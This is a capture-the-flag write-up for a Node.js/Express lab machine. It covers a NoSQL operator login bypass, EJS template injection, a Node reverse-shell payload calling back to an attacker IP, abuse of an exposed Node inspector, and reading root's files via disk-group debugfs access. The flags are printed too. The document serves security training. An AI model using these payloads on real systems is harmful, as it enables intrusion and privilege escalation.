# Drift

> Byte Lotus Hotel · "Do Not Disturb" series · Boot2Root ·
> 
> Node.js/Express · NoSQL auth bypass · EJS SSTI · Node `--inspect` abuse · `disk` group → root

The briefing reads like a beach-noir short story: a wallet that signs a transaction it never should have, a shell on the beach that answers back, a stranger who sits down in a still-warm session, and a set of footprints to follow up the same climb someone already made. That maps almost one-to-one onto the kill chain — auth bypass, SSTI RCE, attaching to a live debugger, and retracing a prior operator's privesc.


## Recon

Full TCP sweep with default scripts and version detection to start.

```bash
nmap -sC -sV -p- -T4 -oN drift_full.txt 10.112.190.152
```



Two doors: OpenSSH 9.6p1 on 22, and HTTP on 80 that fingerprints as *Node.js (Express middleware)*, title "Byte Lotus — Poolside". No juicy version banner to lean on, so the app itself is the way in.

The landing page is a booking front-end with a Staff / Guest ID + passphrase login.



"Byte Lotus never forgets · Stay Noticed™" — cute tagline, and a not-so-subtle hint that sessions are going to matter on this box.

Content discovery to find anything living behind the login.

```bash
gobuster dir -u http://10.112.190.152 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



`/staff` (403) and `/logout` (302) are the interesting hits. `/staff` is gated — I need a staff session before that 403 becomes a page.

## Initial access — NoSQL auth bypass

First instinct on any login form is classic SQLi, so I threw `attendent' OR 1=1 -- -` at the ID field.



`401`. Nothing — the backend clearly isn't string-concatenating SQL. Express plus a "never forgets" tagline smells like Mongo, so I stopped injecting *syntax* and started injecting an *operator*. Instead of sending a string password, send `password[$ne]=x` so the parsed query becomes `{ password: { $ne: "x" } }` — matches any account whose password isn't literally `"x"`, i.e. all of them.

I did this by hand in Firefox DevTools' New Request tool rather than curl, with the body `username=attendant&password[$ne]=x`.



The response is the tell: `302 Found`, `Location: /staff`, and a fresh `Set-Cookie: connect.sid=…; Path=/; HttpOnly`. That's a valid staff session for `attendant`, no passphrase required.



The wallet just signed a transaction it should never have authorized.

## Staff console — Cabana Desk

Loading `/staff` with that `connect.sid` drops me into the "Cabana Desk" staff console, signed in as `attendant`.



The gift is right there in the field label: a *"Confirmation template (EJS — use `<%= guest %>` to personalise)"* textarea that gets rendered server-side through `/staff/preview`. User-controlled EJS is server-side template injection with a bow on it.

## SSTI

Cheapest possible probe — an arithmetic expression.

Template `<%= 7*7 %>` → Preview `49`.



`49`, not the literal string — confirmed EJS SSTI. And since EJS runs raw JS inside scriptlets, this is a straight line to code execution.

## RCE — reverse shell as poolside

The box's `/bin/sh` is dash, which has no `/dev/tcp`, so the usual bash one-liner is dead on arrival. Doesn't matter — I'm already executing inside Node, so I built the reverse shell out of Node's own `net` and `child_process` inside a `<% %>` scriptlet:

```ejs
<% const cp=global.process.mainModule.require("child_process"),
      net=global.process.mainModule.require("net");
   const s=new net.Socket();
   s.connect(4444,"192.168.152.228",()=>{
     const sh=cp.spawn("/bin/sh",[]);
     s.pipe(sh.stdin); sh.stdout.pipe(s); sh.stderr.pipe(s);
   }); %>
```

Pasted into the template box, listener up, hit Preview.



```bash
nc -lvnp 4444
```



Callback lands, and I upgrade to a real TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

The shell on the beach answered back — running as `uid=996(poolside)` on host `tryhackme-2404`.

## User flag

```bash
find / -name "user.txt" 2>/dev/null
id
cat /home/poolside/user.txt
```



```
THM{w4rm_s3ss10n_h1j4ck3d}
```

## Privesc enumeration

The briefing said to follow the previous climber's footprints, and someone did leave a trail. `poolside`'s `.viminfo` still references a script the prior operator had open:

```bash
cat /home/poolside/.viminfo
# → file marks / jumplist entries pointing at /tmp/solve.js
```

The `.viminfo` still points at `/tmp/solve.js`, but the file itself is gone (cleared on reboot) — the leftover reference is the footprint: someone edited an exploit script here and climbed this exact route before me.

The actual lever is a service. Digging through `/opt` turns up a telemetry app owned by a different user.

```bash
cat /opt/pipelinesvc/telemetry/processor.js
```



It's a harmless-looking occupancy processor on a 5-second `setInterval` — but the important part is *how it's launched*:

```bash
systemctl cat lotus-telemetry
# ...
# ExecStart=/usr/bin/node --inspect=127.0.0.1:9229 /opt/pipelinesvc/telemetry/processor.js
# User=pipelinesvc
```

`--inspect=127.0.0.1:9229` means the Node debug inspector is live, bound to localhost, running as `pipelinesvc`. Anything local that can reach 9229 can attach and run arbitrary JS in that process. That's the stranger sitting down in a session that's still warm.

## Node inspector → pipelinesvc

Attach to the live inspector from the poolside shell.

```bash
node inspect 127.0.0.1:9229
```

Then, inside the `debug>` REPL, evaluate in the target's context to confirm who I've become:

```
debug> exec process.mainModule.require('child_process').execSync('id > /tmp/pipe.txt 2>&1')
```

```bash
cat /tmp/pipe.txt
# uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

`pipelinesvc` — and crucially it's in group `disk` (gid 6).

## disk group → root

`disk` group membership is read/write on the raw block devices, which is effectively root regardless of file permissions — I can read root's files straight off the underlying filesystem. Locate the root partition:

```bash
lsblk
# nvme0n1p1 259:2  0  20G  0 part /
```

Then use `debugfs` to pull `/root/root.txt` directly off the block device, bypassing the filesystem's access control entirely. I ran it from the same inspector session, so it executes as `pipelinesvc`:

```
debug> exec process.mainModule.require('child_process').execSync('debugfs -R "cat /root/root.txt" /dev/nvme0n1p1 > /tmp/rf.txt 2>/dev/null || true').toString()
```

```bash
cat /tmp/rf.txt
```



```
THM{r4w_d1sk_4cc3ss_w4s_t00_much}
```

## Chain summary

- NoSQL operator injection (`password[$ne]`) → staff session as `attendant` — *the wallet signs the unauthorized transaction*
- EJS SSTI on `/staff/preview` → Node reverse shell as `poolside` — *the shell on the beach answers back*
- Exposed Node `--inspect` on the `lotus-telemetry` service → attach as `pipelinesvc` — *a stranger sits down in a warm session*
- `pipelinesvc` in `disk` group → `debugfs` reads `root.txt` off `/dev/nvme0n1p1` — *follow his footprints, climb the way he climbed*

Two takeaways worth writing down: with a NoSQL backend, "sanitise the string" has to become "reject objects in your query params," or an operator walks right through your login. And a debug inspector on localhost is still an inspector — `--inspect` has no business on a running service, and `disk` group is just root spelled differently.
